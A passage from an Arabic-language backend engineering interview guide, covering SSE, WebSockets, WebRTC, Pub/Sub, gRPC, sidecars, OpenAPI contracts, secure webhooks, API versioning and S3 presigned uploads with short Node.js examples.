  const listener = (stock) => sendEvent({ stock });
  stockEventEmitter.on(`stock:${req.params.id}`, listener);

  req.on('close', () => {
    stockEventEmitter.off(`stock:${req.params.id}`, listener);
  });
});
```

#### مثال 1: التطبيق العملي — عرض التغيير اللحظي لأسعار المنتجات والمخزون

في المتجر، لما تكون في مزاد أو صفقات سريعة (Flash Sale)، بنستخدم SSE لدفع مخزون المنتج المتبقي لحظة بلحظة لكل الزبائن المفتوحة عندهم الصفحة بدون ما يحتاجوا يعملوا Refresh.

#### مثال 2: فخ شائع — مشكلة الـ HTTP/1.1 Max Connections Limit (6 Sockets limit)

في متصفحات الـ Web القديمة ببروتوكول HTTP/1.1، المتصفح بيحدد 6 اتصالات كحد أقصى للـ Domain الواحد! لو العميل فتح 6 تبويبات متجر استخدمت SSE، التبويب السابع هيتجمد مش هيعرف يبعت أي HTTP Request عادي! الحل هو تفعيل **HTTP/2** الذي يسمح بـ Multiplexing لكل اتصالات الـ SSE عبر TCP Connection واحد.

#### مثال 3: حالة إنتاجية — إعادة التوصيل واستكمال الإشعارات بـ Last-Event-ID

من الميزات العظيمة في SSE أن المتصفح بيحفظ آخر `id` وصله. لو الشبكة قطعت وثانيتين ورجعت، المتصفح بيبعت `Last-Event-ID: 99` للسيرفر، والسيرفر بيستكمل إرسال الأحداث الفائتة ابتداءً من 100 بدون فقدان أي بيانات.

---

## Q73 — إيه هو WebSockets، وإزاي بيحل مشكلة الاتصال في الاتجاهين؟

### أصل الحكاية

في SSE (Q72)، الاتصال كان أحادي الاتجاه (Server-to-Client فقط). لكن لو التطبيق محتاج **تواصل لحظي ثنائي الاتجاه فائق السرعة وبأقل Overhead (Full-Duplex Bidirectional Communication)** — مثل محادثة دعم فني مباشرة بين الزبون وخدمة العملاء، أو مزاد لايف من الطرفين — فبروتوكول HTTP بشرائحه لم يعد كافياً.

الحل هو **WebSockets Protocol (`ws://` أو `wss://`)**.
المعاملة تبدأ بـ **HTTP Handshake** العادي مع إرسال `Upgrade: websocket` Header. بمجرد موافقة السيرفر، يتم **ترقية الاتصال من HTTP إلى WebSocket TCP Socket مستمر مفتوح في الاتجاهين للأبد**. الطرفان (Client & Server) يستطيعان إرسال واستقبال البيانات في أي ميكروثانية بـ Overhead لا يتعدى 2 Bytes لكل Frame!

```mermaid
sequenceDiagram
    participant C as Client Browser
    participant S as WebSocket Server (Socket.io / ws)

    C->>S: GET /chat (HTTP Header: Upgrade: websocket)
    S-->>C: 101 Switching Protocols (Connection Upgraded!)
    
    Note over C,S: Continuous Full-Duplex Bidirectional TCP Socket
    C->>S: Frame: "أنا الزبون أحتاج مساعدة"
    S-->>C: Frame: "أهلاً بك، كيف أساعدك؟"
    S-->>C: Frame: "تم تغيير حالة طلبك لـ COMPLETED"
```

```javascript
// Node.js WebSocket Server using 'ws' library
const { WebSocketServer } = require('ws');
const wss = new WebSocketServer({ port: 8080 });

wss.on('connection', (ws, req) => {
  console.log('New WebSocket Connection established');

  ws.on('message', (message) => {
    console.log(`Received: ${message}`);
    // Echo back or broadcast message to other clients
    ws.send(JSON.stringify({ type: 'CHAT_REPLY', text: 'تم استلام رسالتك' }));
  });

  ws.on('close', () => console.log('Client disconnected'));
});
```

#### مثال 1: التطبيق العملي — نظام الشات اللحظي بين العميل وموظف الدعم

في منصة التجارة، بنبني شات الدعم الفني بـ Socket.io/WebSockets. الرسائل بتوصل بين الطرفين في أقل من 5ms، مع إمكانية عرض مؤشر "جاري الكتابة..." (Typing indicator) لحظة بلحظة.

#### مثال 2: فخ شائع — نسيان تفعيل الـ Heartbeat/Ping-Pong واستنزاف اتصالات السيرفر

من الأخطاء الكارثية ترك اتصالات الـ WebSockets بدون **Ping/Pong Heartbeat**. لو العميل فصل شبكة الموبايل فجأة بدون إرسال Close Frame، السيرفر هيفضل يفكر الاتصال مفتوح ويحتفظ بـ Socket معلق في الذاكرة للأبد! الصواب هو ضبط Ping كل 30 ثانية وإغلاق أي Socket لا يرد بـ Pong.

#### مثال 3: حالة إنتاجية — التوسع الأفقي لـ WebSockets بـ Redis Adapter

لما السيرفرات تكبر ويكون عندك 5 السيرفرات API ورا Load Balancer... الزبون A متصل بـ Server 1 وموظف الدعم B متصل بـ Server 2! لو A بعت رسالة لـ Server 1، Server 1 ميعرفش مكان B! الحل هو ربط السيرفرات بـ **Redis Pub/Sub Adapter (Socket.io Redis Adapter)** لتوصيل الرسائل عبر جميع السيرفرات فوراً.

---

## Q74 — إيه هو WebRTC، وليه هو مختلف تماماً كـ Peer-to-Peer؟

### أصل الحكاية

في كل البروتوكولات السابقة (Request-Response, Polling, SSE, WebSockets)، التواصل دايماً بيمر عن طريق **السيرفر في المنتصف (Client-Server Architecture)**. لكن لو المنصة محتاجة تنقل بيانات ضخمة جداً في الوقت الفعلي (Real-Time Video Call أو Audio Call بين التاجر والزبون لمعاينة المنتج live)، مرور شريط الفيديو بدقة 4K عبر سيرفرك هيستهلك Bandwidth هائل ويكلف ثروة في السحابة!

الحل المعياري هو **WebRTC (Web Real-Time Communication)**:
بروتوكول يسمح بنقل الفيديو والصوت والبيانات **مباشرة بين متصفحي المستخدمين كـ Peer-to-Peer (P2P)** بدون مرور دفق الفيديو عبر السيرفر المركزي نهائياً! السيرفر بيتدخل فقط في البداية كـ **Signaling Server** لتبادل عناوين الـ IP والمفاتيح الأمنية (via STUN/TURN Servers)، وبعدها الاتصال المباشر يتم بين المتصفحين فوراً.

```mermaid
flowchart LR
    subgraph Signaling Phase (Client-Server)
        UserA[Customer Browser] -->|1. Exchange SDP & ICE Candidates| SigServer[Signaling Server WebSockets]
        UserB[Merchant Browser] -->|1. Exchange SDP & ICE Candidates| SigServer
    end

    subgraph Direct Peer-to-Peer Data Flow (P2P Stream)
        UserA <===>|2. Direct Encrypted UDP Video Stream (No Server!)| UserB
    end
```

#### مثال 1: التطبيق العملي — معاينة المنتجات بالفيديو بين التاجر والزبون

في متجر الذهب أو السيارات، الزبون بيطلب معاينة فيديو لايف للمنتج. WebRTC ينشئ اتصالا مشفراً بالكامل بين كاميرا التاجر ومتصفح الزبون بنقاء عالي وبدون أي تحميل على سيرفرات الباك اند.

#### مثال 2: فخ شائع — نسيان إعداد TURN Server للتعامل مع الـ NAT/Firewalls

في 30% من الحالات، العميل والتاجر بيكونوا خلف شبكات معقدة (Symmetric NAT أو Corporate Firewalls) تمنع الاتصال المباشر P2P! الفخ الشائع هو الاعتماد فقط على STUN Server البسيط. الحل هو تجهيز **TURN Relay Server** (زي Coturn) ليمرر البيانات المشفّرة كـ Relay في الحالات المقفولة.

#### مثال 3: حالة إنتاجية — دمج WebRTC مع Media Servers للـ One-to-Many Streaming

لو التاجر عايز يعمل Live Stream يعرض منتجاته لـ 10,000 زبون في نفس اللحظة، P2P العادي هيقع لأن موبايل التاجر ميعرفش يبعت 10,000 فيديو ستريم! الحل هو استخدام **Selective Forwarding Unit (SFU)** مثل Mediasoup أو Janous كـ Media Server وسيط.

---

## Q75 — إيه هو الـ Publish-Subscribe Pattern (Pub/Sub)؟

### أصل الحكاية

مع تعقد منصة التجارة الإلكترونية، هتواجه مشكلة التداخل والتفكك في المعمارية (Coupling): لما الزبون يتم طلب شراء جديد `OrderPlacedEvent`... خدمة الطلبات محتاجة تبلغ خدمة المخزون يخصم قطعة، وخدمة الإشعارات تبعت إيميل، وخدمة الشحن تحجز مندوب، وخدمة الإحصائيات تحدث الـ Dashboard! لو خدمة الطلبات نادت كل الخدمات دي صراحة في الكود بتاعها، الكود هيكون متصلد ومستحيل صيانته أو إضافة خدمة جديدة بدون تعديل خدمة الطلبات!

الحل هو نمط **Publish-Subscribe (Pub/Sub) Pattern**:
فصل تام بين **الناشر (Publisher)** و **المشتركين (Subscribers)** عبر **Message Broker** وسط (زي Redis Pub/Sub أو RabbitMQ أو Apache Kafka):
- خدمة الطلبات تنشر الحدث: `publish('order.created', orderData)` وتنهي عملها!
- الخدمات الأخرى تشترك في القناة: `subscribe('order.created')` وتستقبل البيانات وتنفذ عملها في صمت واستقلالية تامة.

```mermaid
flowchart TD
    Publisher[Order Service Publisher] -->|Publish: order.created| Broker[Message Broker / Redis PubSub]
    
    Broker -->|Channel Event| Sub1[Inventory Service]
    Broker -->|Channel Event| Sub2[Email Notification Service]
    Broker -->|Channel Event| Sub3[Analytics Dashboard Service]
    Broker -->|Channel Event| Sub4[Shipping Logistics Service]
```

```javascript
// Redis Pub/Sub Example in Node.js
const Redis = require('ioredis');
const pub = new Redis();
const sub = new Redis();

// 1. Subscriber Service (Email Service)
sub.subscribe('order.created', (err, count) => {
  console.log('Subscribed to order.created channel');
});

sub.on('message', (channel, message) => {
  const order = JSON.parse(message);
  console.log(`Sending confirmation email for order #${order.id}`);
});

// 2. Publisher Service (Order Checkout API)
async function checkoutOrder(orderData) {
  // Save to DB...
  await pub.publish('order.created', JSON.stringify(orderData));
}
```

#### مثال 1: التطبيق العملي — سهولة إضافة ميزات جديدة بدون تعديل الكود القديم

في المتجر، لما قسم التسويق يطلب إضافة ميزة "إرسال كوبون خصم بعد أول طلب"، بنكتب خدمة جديدة تشترك في `order.created` وتنفذ المنطق بدون ما نلمس سطر كود واحد في خدمة الطلبات الرئيسية!

#### مثال 2: فخ شائع — استخدام Redis Pub/Sub للرسائل الحساسة التي لا تحتمل الفقد (No Persistence)

من الفخاخ المعمارية استخدام **Redis Pub/Sub** للرسائل المالية الحساسة! Redis Pub/Sub طبيعته **Fire-and-Forget**: لو خدمة الإشعارات كانت واصلة صيانة أو ريستارت لحظة نشر الرسالة، الرسالة هتضيع للأبد ولن تستلمها الخدمة عند عودتها! للرسائل الحساسة بنستخدم **Message Queues (RabbitMQ / Kafka / Redis Streams)** التي تحفظ الرسائل في Persistence Storage.

#### مثال 3: حالة إنتاجية — تطبيق المعمارية الموجهة بالأحداث (Event-Driven Architecture)

في الشركات الكبيرة، الـ Pub/Sub بيتحول لأساس النظام عبر **Apache Kafka**. Kafka يحفظ مجرى الأحداث (Event Log) بشكل دائم ومترتب، مما يتيح لأي خدمة جديدة قراءة كل الأحداث التاريخية من أول يوم وتأسيس بياناتها بدقة متناهية.

---

## Q76 — إيه هو gRPC وليه أسرع بكتير من REST/JSON للتواصل الداخلي بين Microservices؟

### أصل الحكاية

في معمارية الـ Microservices، لما يكون عندك 50 خدمة داخلية بيكلموا بعض ملايين المرات في الدقيقة (Service-to-Service Communication)... استخدام **REST APIs مع JSON over HTTP/1.1** بيتحول لـ Bottleneck بطيء جداً ومكلفة للغاية في الـ CPU والـ Bandwidth! السبب: JSON عبارة عن نص عادي (Text-based) ممتلئ بالحروف والاستبدالات يحتاج وقت كبير في الـ Parsing، والـ HTTP/1.1 بيفتح ويقفل اتصالات كثيرة.

الحل الذي طورته Google هو **gRPC (Google Remote Procedure Call)**:
إطار عمل تواصل عالي الأداء مصمم خصيصاً للخدمات الداخلية:
1. بيستخدم **Protocol Buffers (Protobuf)** بدل JSON: صيغة بيانات ثنائية مدمجة جداً (Binary Serialization) أصغر 6 مرات وأسرع 10 أضعاف في المعالجة!
2. بيعتمد صراحة على **HTTP/2**: اتصال TCP واحد مفتوح يدعم Multiplexing وتدفق البيانات في الاتجاهين.
3. بيوفر **Strict Typing & Code Generation**: توليد كود الـ Client والـ Server أوتوماتيكياً بمختلف اللغات من ملف تعريف واحد `.proto`.

```mermaid
flowchart LR
    subgraph Internal Microservices Network (gRPC)
        OrderSvc[Order Microservice Node.js] -->|gRPC over HTTP2 Binary Protobuf| PaymentSvc[Payment Microservice Go]
        PaymentSvc -->|gRPC over HTTP2 Binary Protobuf| FraudSvc[Fraud Microservice Java]
    end
```

```protobuf
// Definition File: order_service.proto
syntax = "proto3";

package ecommerce;

service OrderService {
  rpc GetOrderDetails (OrderRequest) returns (OrderResponse);
}

message OrderRequest {
  int64 order_id = 1;
}

message OrderResponse {
  int64 order_id = 1;
  string status = 2;
  double total_amount = 3;
}
```

#### مثال 1: التطبيق العملي — تسريع التواصل بين خدمة الطلبات وخدمة المدفوعات

في المنصة، الاستدعاء الداخلي بين خدمة الطلبات (Node.js) وخدمة المدفوعات (Go) باستخدام gRPC يستغرق **1ms فقط** مقارنة بـ 25ms عند استخدام REST/JSON، مع تخفيض استهلاك الـ Network Bandwidth بنسبة 80%.

#### مثال 2: فخ شائع — محاولة استخدام gRPC مباشرة من متصفح الزبون (Browser Limitations)

من الأخطاء المحاولة المباشرة لاستدعاء gRPC من متصفح الزبون! متصفحات الـ Web لا تتيح للـ JavaScript التحكم الكامل في شبكة HTTP/2 Frames المطلوبة لـ native gRPC. الاستخدام الصحيح هو جعل **API Gateway** يستقبل REST/JSON من المتصفح ويترجمه لـ gRPC للخدمات الداخلية.

#### مثال 3: حالة إنتاجية — إجبار الـ Type Safety بين فرق اللغات المختلفة

في شركتك، خدمة الطلبات مكتوبة بـ Node.js وخدمة المخزون مكتوبة بـ Java. ملف الـ `.proto` يمثل العقد الموحد (Single Source of Truth). بـ أمر واحد `protoc` يتم توليد TypeScript Interfaces و Java Classes متطابقة 100% تمنع أي اختلاف في أسماء الخانات أو أنواع البيانات.

---

## Q77 — إيه هو الـ Sidecar Pattern في معمارية الـ Microservices؟

### أصل الحكاية

في معمارية الـ Microservices، هتلاحظ إن كل خدمة (سواء مكتوبة بـ Node.js, Go, Python, Java) محتاجة تنفذ نفس المهام التشغيلية المكررة: تشفير الاتصالات الداخلية (mTLS), إدارة الـ Retries والـ Circuit Breaker, تسجيل الـ Traces والـ Metrics, والتحقق من أذونات الشبكة. لو كتبت الكود ده داخل كل خدمة بلغتها الخاصة، هتضيع وقتك في تكرار إعادة اختراع العجلة بـ 4 لغات مختلفة!

الحل هو **Sidecar Pattern (نمط عربة الدراجة النارية الجانبية)**:
نلصق بجانب كل حاوية تطبيق رئيسية (App Container) حاوية وسيطة ثانوية خفيفة جداً تسمى **Sidecar Container** (مثل Envoy Proxy) تعيش معها في نفس الـ Pod وتتشارك معها نفس الـ Network Namespace (`localhost`). الـ Sidecar يتولى كل الاتصالات الخارجية والأمان والشبكة، ليترك التطبيق الرئيسي مركزاً 100% في منطق العمل البرمجي (Business Logic).

```mermaid
flowchart LR
    subgraph Kubernetes Pod: Order Service
        AppNode[Order App Container Node.js] <-->|localhost| SidecarEnvoy[Sidecar Proxy Container Envoy]
    end

    subgraph Kubernetes Pod: Payment Service
        SidecarPayment[Sidecar Proxy Container Envoy] <-->|localhost| AppGo[Payment App Container Go]
    end

    SidecarEnvoy <===>|Automatic mTLS Encrypted gRPC| SidecarPayment
```

#### مثال 1: التطبيق العملي — تفعيل الـ Service Mesh (Istio / Linkerd)

في منصة المتجر، بنستخدم **Service Mesh** زي Istio. Istio بيحقن Sidecar Container من Envoy تلقائياً بجانب كل Pod. الـ Sidecar يشفر كل الاتصالات الداخلية بين Microservices بـ mTLS أوتوماتيكياً بدون تغيير سطر كود واحد في تطبيقات Node.js أو Go!

#### مثال 2: فخ شائع — زيادة استهلاك الـ Memory والـ CPU بسبب الـ Sidecars في التطبيقات الصغيرة

من الفخاخ المعمارية إضافة Sidecar Container في تطبيق بسيط يمتلك 2 Services فقط! كل Sidecar تستهلك حوالي 50MB RAM وبعض المعالجة. في المشاريع الصغيرة، الـ Overhead ده غير مبرر، والـ Sidecar Pattern مخصص للأنظمة الموزعة المعقدة.

#### مثال 3: حالة إنتاجية — إدارة الـ Traffic Shifting والـ Distributed Tracing المركزية

بفضل الـ Sidecar Pattern، فريق الـ DevOps يستطيع توجيه 10% من الـ Traffic للإصدار الجديد (Canary Testing) أو حقن أخطاء وهمية لااختبار قوة النظام (Chaos Engineering) عن طريق تعديل إعدادات الـ Sidecar Proxy رسمياً بدون إعادة بناء أو نشر تطبيقات الـ Backend.

---

> [!tip] Checkpoint نهائي للموضوع (أنماط التواصل بين Backend وClient)
> **مراجعة محورية لأنماط التواصل الشبكي:**
> 1. **Polling Patterns (Q70 & Q71)**: تجنب Short Polling المجهد، واستبدله بـ Long Polling للحالات البسيطة التي تتطلب انتظار التحديث.
> 2. **Streaming & WebSockets (Q72 & Q73)**: استخدم SSE للتحديثات أحادية الاتجاه من السيرفر، واستعن بـ WebSockets للتواصل اللحظي ثنائي الاتجاه بأقل Overhead.
> 3. **P2P & Pub/Sub (Q74 & Q75)**: استخدم WebRTC لنقل الفيديو والصوت مباشرة بين المتصفحات، وطبق Pub/Sub لتفكيك وتكامل الخدمات المستقلة.
> 4. **gRPC & Sidecar (Q76 & Q77)**: اعتمد gRPC وProtobuf للتواصل الداخلي الخارق بين الـ Microservices، وطبق Sidecar Pattern لتوحيد أمان وقياسات الشبكة.

---

## Q78 — إيه هو Contract-First API Design، وإزاي بيمنع الاختلاف بين Frontend وBackend؟

### أصل الحكاية

من أقدم الصدامات التاريخية بين مهندسي الـ Backend والـ Frontend هي مشكلة "عدم تطابق الـ API Specs": المهندس الباك اند يبني Endpoint ويرجع `user_name` بنص صغير، بينما الفرونت اند يكتب الكود مستنياً `userName` بالـ CamelCase، فيحصل `TypeError: Cannot read property of undefined` في Production!

الحل الاحترافي هو **Contract-First API Design (التصميم القائم على العقد أولاً)**:
قبل كتابة سطر كود واحد في الباك اند أو الفرونت اند، الفريقان يجلسان معاً ويكتبان **OpenAPI Specification (Swagger)** بملف YAML/JSON موحد يحدد بدقة متناهية: أسماء الـ Endpoints, الأشكال المتوقعة للـ Request Body, الـ Response Schema, وأكواد الـ HTTP Status.
من الملف ده (العقد)، بنستخدم أدوات تلقائية (زي **Orval** أو **OpenAPI Generator**) لتوليد الـ TypeScript Interfaces وAxios Fetchers للفرونت اند، والـ Controller Interfaces للباك اند أوتوماتيكياً!

```mermaid
flowchart TD
    Contract[1. Unified OpenAPI Spec File swagger.yaml]
    
    Contract -->|Orval CodeGen| FE[2. Auto-Generated Frontend React-Query Hooks & Types]
    Contract -->|Swagger Codegen| BE[3. Auto-Generated Backend NestJS Controller Interfaces]
    
    FE & BE -->|100% Type-Safe Match!| Production[Zero Mismatch in Production]
```

```yaml
# Sample OpenAPI 3.0 Contract (openapi.yaml)
paths:
  /api/v1/products/{id}:
    get:
      summary: Get product by ID
      parameters:
        - name: id
          in: path
          required: true
          schema:
            type: integer
      responses:
        '200':
          description: Successful response
          content:
            application/json:
              schema:
                type: object
                required: [id, title, price]
                properties:
                  id: { type: integer }
                  title: { type: string }
                  price: { type: number }
```

#### مثال 1: التطبيق العملي — توليد الـ API Client تلقائياً بـ Orval

في مشروع المتجر، الباك اند يكتب الـ Spec. أداة Orval تقرأ الملف وتنشئ ملف `api.ts` يحتوي على React Hooks جاهزة مثل `useGetProductById(42)`. لو الباك اند غير اسم حقل، التايب سكريبت في الفرونت اند هيجيب خطأ أحمر وقت الـ Build فوراً ليمنع النشر المكسور.

#### مثال 2: فخ شائع — الـ Code-First المخادع وتحديث الـ Spec يدوياً

من الفخاخ كتابة الكود الأول (Code-First) وتوليد الـ Spec يدوياً بعد شهر! لو الباك اند عدل الحقول ونسي يحدث الـ Swagger hand-written file، الـ Spec هيتحول لـ Outdated Documentation كاذبة لا تصف الواقع وتسبب كسراً للعملاء.

#### مثال 3: حالة إنتاجية — تشغيل Mock Servers للفرونت اند قبل بناء الباك اند

بفضل Contract-First، بعد كتابة `openapi.yaml` في أول يوم، بنشغل **Mock Server** بـ Prism. الفرونت اند يستطيع بدء تطوير الشاشات واختبارها بـ Mock Data حقيقية ومطابقة للعقد تماماً بينما الباك اند لسه بيؤسس الجداول في الداتابيز!

---

## Q79 — إزاي تصمم نظام Webhooks آمن وموثوق؟

### أصل الحكاية

في منصة التجارة الإلكترونية، لما زبون يدفع بالبطاقة البنكية عبر بوابات الدفع (زي Stripe أو PayMob)... بوابة الدفع محتاجة تُعلم سيرفر المتجر بنجاح المعاملة. البوابة مش هتعمل Polling عليك؛ هي بترسل طلب HTTP POST إلى Endpoint خاصة عندك تسمى **Webhook**.

لأن الـ Webhook Endpoint مفتوحة للعامة على الإنترنت، يظهر سؤالين أمنيين وهندسيين:
1. **الأمان (Security)**: إزاي تتأكد إن الـ Request ده جاي فعلاً من Stripe ومش مهاجم بيحاول يزيف عملية دفع ناجحة؟
2. **الموثوقية (Reliability & Idempotency)**: إزاي تتعامل لو شبكة المتجر قطعت لحظة إرسال الـ Webhook أو البوابة كررت إرسال الـ Webhook مرتين؟

الحل هو **HMAC Signature Verification** للأمان، و **Idempotency Check (Q83)** للموثوقية.

```mermaid
sequenceDiagram
    participant Gateway as Stripe Payment Gateway
    participant Store as Store Webhook Endpoint
    participant DB as Store Database

    Gateway->>Store: POST /api/v1/webhooks/stripe (Header: Stripe-Signature: t=160,v1=9a8f...)
    Note over Store: 1. Verify HMAC Signature using Webhook Secret
    Store->>DB: 2. Check if event_id already processed (Idempotency)
    Store->>DB: 3. Mark Order as PAID inside DB Transaction
    Store-->>Gateway: 200 OK (Acknowledged)
```

```javascript
// Express Webhook Handler with HMAC Verification & Idempotency
const crypto = require('crypto');

app.post('/api/v1/webhooks/stripe', express.raw({ type: 'application/json' }), async (req, res) => {
  const signature = req.headers['stripe-signature'];
  const webhookSecret = process.env.STRIPE_WEBHOOK_SECRET;

  // 1. HMAC Signature Verification
  try {
    const event = stripe.webhooks.constructEvent(req.body, signature, webhookSecret);
    
    // 2. Idempotency Check: Don't process same event twice!
    const existingEvent = await db.processedEvents.findUnique({ where: { id: event.id } });
    if (existingEvent) {
      return res.status(200).json({ received: true, note: 'Already processed' });
    }

    // 3. Process Event safely
    if (event.type === 'payment_intent.succeeded') {
      await markOrderPaid(event.data.object.metadata.orderId);
      await db.processedEvents.create({ data: { id: event.id } });
    }

    return res.status(200).json({ received: true });
  } catch (err) {
    return res.status(400).send(`Webhook Error: ${err.message}`);
  }
});
```

#### مثال 1: التطبيق العملي — الحماية بـ HMAC SHA256 Signature

في متجرك، بوابة الدفع تحسب Hashed Signature للـ Payload باستخدام Secret Key مشترك بينكم، وترفقه في الـ Header. الباك اند بيعيد حساب الـ Hash على الـ Raw Body المرسل بنفس الـ Secret. لو الأرقام تطابقت، فأنشطت العملية موثقة 100% وأن البيانات لم تتعرض لأي تعديل في الطريق.

#### مثال 2: فخ شائع — استخدام `express.json()` المفروم الذي يكسر الـ Signature Verification

من أشهر أخطاء المطورين استخدام `app.use(express.json())` قبل Webhook Endpoint! مكتبة `express.json()` تقوم بتغيير وإعادة ترتيب الـ JSON Body، مما يجعل حساب الـ HMAC Signature يختلف وتفشل عملية التحقق دائماً! الصواب هو قراءة الـ Webhook كـ **Raw Buffer (`express.raw()`)**.

#### مثال 3: حالة إنتاجية — إرجاع الـ `200 OK` فوراً وترحيل المعالجة لـ Background Queue

بوابات الدفع تنظر رد `200 OK` من سيرفرك خلال 3 ثواني، وإلا ستفترض أن سيرفرك انهار وتكرر إرسال الـ Webhook 10 مرات! الحل الإنتاجي: تحقق من الـ Signature، ارفع الـ Payload لـ Message Queue (Q44)، وارجع `200 OK` للبوابة في 20ms لتتم المعالجة في الخلفية.

---

## Q80 — إزاي تعمل API Versioning صح لما تحتاج تغيّر حاجة Breaking؟

### أصل الحكاية

في منصة التجارة الإلكترونية، بعد سنة من العمل، يحتاج الفريق لتغيير بنية الـ API (مثل: تغيير اسم حقل `customer_name` إلى `fullName` أو حذف حقل قديم). لو غيرت الـ Response مباشرة، تطبيق الموبايل القديم عند آلاف الزبائن اللي ماحدثوش التطبيق ينكسر فوراً وتظهر عندهم أخطاء!

أي تغيير يتعارض مع الاصدارات القديمة يسمى **Breaking Change**.
الواجب المعماري هو تطبيق **API Versioning Strategy**: إدارة أصدارات موازية تسمح بعمل الاصدار الجديد مع الابقاء على الاصدار القديم يعمل بسلاسة لفترة انتقالية (Deprecation Period).

الأنماط الرئيسية:
1. **URL Path Versioning (الأشهر والأوضح)**: `/api/v1/orders` مقابل `/api/v2/orders`.
2. **Header Versioning**: `Accept-Version: v2`.
3. **Query Parameter Versioning**: `/api/orders?version=2`.

```mermaid
flowchart TD
    ClientOld[Legacy Mobile App v1.0] -->|GET /api/v1/orders| V1[v1 Controller: Returns customer_name]
    ClientNew[Updated Web App v2.0] -->|GET /api/v2/orders| V2[v2 Controller: Returns fullName & new schema]
    
    subgraph Backend API Versioning
        V1 & V2 --> SharedService[Shared Business Logic Layer]
    end
```

```javascript
// Express Versioned Routing
const routerV1 = express.Router();
const routerV2 = express.Router();

// Version 1 Endpoint (Maintained for legacy clients)
routerV1.get('/products/:id', (req, res) => {
  res.json({ id: 42, product_name: 'Smart Phone' }); // Old property name
});

// Version 2 Endpoint (New Breaking Clean Schema)
routerV2.get('/products/:id', (req, res) => {
  res.json({ id: 42, name: 'Smart Phone', currency: 'USD' }); // New property name
});

app.use('/api/v1', routerV1);
app.use('/api/v2', routerV2);
```

#### مثال 1: التطبيق العملي — الاعتماد على URL Path Versioning في منصة المتجر

في المتجر، نعتمد `/api/v1/` لكل الـ Endpoints. لما نحتاج نغير شكل رد سلة الشراء، بنبني `/api/v2/cart`. التطبيقات القديمة تظل تطلب `/v1/` وتعمل 100%، بينما الشاشات الجديدة تستخدم `/v2/`.

#### مثال 2: فخ شائع — نسيان تفعيل الـ Deprecation Header وقطع الاصدار القديم فجأة

من الأخطاء قطع دعم `/v1/` بدون سابق إنذار! الصواب هو إضافة **Deprecation HTTP Headers** في ردود الاصدار القديم:
`Sunset: Wed, 11 Nov 2026 00:00:00 GMT`
`Deprecation: true`
لتنبيه مهندسي الفرونت اند في الـ Logs بقرب موعد إغلاق الإصدار القديم.

#### مثال 3: حالة إنتاجية — مشاركة منطق العمل (Business Logic) وتغيير طبقة التثقيف (DTOs) فقط

في الباك اند الاحترافي، الإصدارين `/v1/` و `/v2/` لا يكرران كود الداتابيز! الاصدارين يناديان نفس الـ Service Layer، وتكون التفرقة فقط في طبقة الـ DTO (Data Transfer Object) لتنسيق شكل الـ JSON النهائي المرسل للعميل.

---

## Q81 — إزاي بترفع الملفات الكبيرة (زي الصور والفيديوهات) مباشرة للـ Cloud Storage (Presigned URLs)؟

### أصل الحكاية

في متجر التجارة الإلكترونية، لما التاجر يحتاج يرفع 50 صورة عالية الدقة للمنتج، أو فيديو شرح بحجم 200 Megabytes... لو المتصفح رفع ملفات الميديا دي لسيرفر الـ Node.js API الأول، وسيرفر Node.js أخذ الملفات ورجع رفعها لـ AWS S3...
فأنت ارتكبت جرمين معمارين:
1. استهلكت الـ Bandwidth والـ RAM وسددت الـ Event Loop لسيرفر Node.js في نقل بايتات ملفات صامتة!
2. لو الـ Request أخذ 40 ثانية، الـ Connection هيقطع بـ Timeout!

الحل المعماري الاحترافي هو **Presigned URLs (Direct S3 Upload)**:
1. المتصفح بيبعت طلب خفيف جداً للـ API: "أنا التاجر #42 وعايز ارفع صورة اسمها `photo.jpg` بحجم 5MB".
2. الباك اند بيتحقق من الصلاحيات، ويتواصل مع AWS S3 لتوليد **رابط رفع مؤقت موقّع أمنياً (Presigned PUT URL)** صالح لمدة 5 دقائق فقط، ويرجعه للمتصفح.
3. المتصفح بياخد الرابط الموقّع ويرفع الصورة **مباشرة من المتصفح إلى AWS S3** بدون أن يلمس ملف الصورة سيرفر الباك اند نهائياً!

```mermaid
sequenceDiagram
    participant C as Merchant Browser
    participant API as API Server Node.js
    participant S3 as AWS S3 Storage Bucket

    C->>API: 1. POST /api/v1/products/upload-url { filename: "image.png" }
    Note over API: Check Permissions & Generate S3 Presigned URL
    API-->>C: 2. 200 OK { uploadUrl: "https://s3.amazonaws.com/bucket/image.png?signature=xyz..." }
    
    C->>S3: 3. PUT Direct File Binary Stream to Presigned URL
    Note over S3: AWS S3 verifies signature & stores file!
    S3-->>C: 4. 200 OK (Upload Complete!)
    
    C->>API: 5. POST /api/v1/products { imageUrl: "https://s3.amazonaws.com/bucket/image.png" }
```

```javascript
// Generating AWS S3 Presigned Upload URL in Node.js
const { S3Client, PutObjectCommand } = require('@aws-sdk/client-s3');
const { getSignedUrl } = require('@aws-sdk/s3-request-presigner');

const s3Client = new S3Client({ region: 'us-east-1' });

app.post('/api/v1/products/upload-url', async (req, res) => {
  const { fileName, fileType } = req.body;
  const fileKey = `products/${Date.now()}-${fileName}`;

  const command = new PutObjectCommand({
    Bucket: process.env.AWS_S3_BUCKET,
    Key: fileKey,
    ContentType: fileType,
  });

  // Generate URL valid for 5 minutes (300 seconds)
  const presignedUrl = await getSignedUrl(s3Client, command, { expiresIn: 300 });

  return res.json({
    uploadUrl: presignedUrl,
    fileUrl: `https://${process.env.AWS_S3_BUCKET}.s3.amazonaws.com/${fileKey}`
  });
});
```

#### مثال 1: التطبيق العملي — رفع صور المنتجات الكبيرة بسلاسة فائقة

في المتجر، التاجر بيلقط 10 صور للمنتج من الموبايل. الموبايل بيجيب 10 Presigned URLs في 100ms، ويرفع الـ 10 صور متوازية مباشرة لـ S3 Bucket. الباك اند بيظل خفيف وسريع ويبقى وقته مكرس للـ DB I/O فقط.

#### مثال 2: فخ شائع — السماح برفع أي نوع ملفات بدون فحص الـ Content-Type أو الحجم

من الفخاخ الأمنية توليد Presigned URL يسمح للمستخدم برفع ملفات `.exe` أو `.html` خبيثة! الصواب هو تقييد الـ Presigned URL صراحة بـ `ContentType` محدد (مثل `image/jpeg`) وحجم أقصى في سياسات الـ S3 Bucket.

#### مثال 3: حالة إنتاجية — معالجة الصور أوتوماتيكياً بـ AWS Lambda Triggers

بعد ما المتصفح يرفع الصورة لـ S3 مباشرة، S3 بيطلق **S3 Event Trigger** ينادي دالة **AWS Lambda** في الخلفية. اللامبدا بتضغط الصورة وتولّد نسخ مصغرة (Thumbnails) وتحدث قاعدة البيانات أوتوماتيكياً دون أي إرهاق لسيرفر الـ API.

---

## Q82 — إزاي بتصمم Asynchronous API للعمليات الثقيلة (Status Polling Pattern)؟

### أصل الحكاية

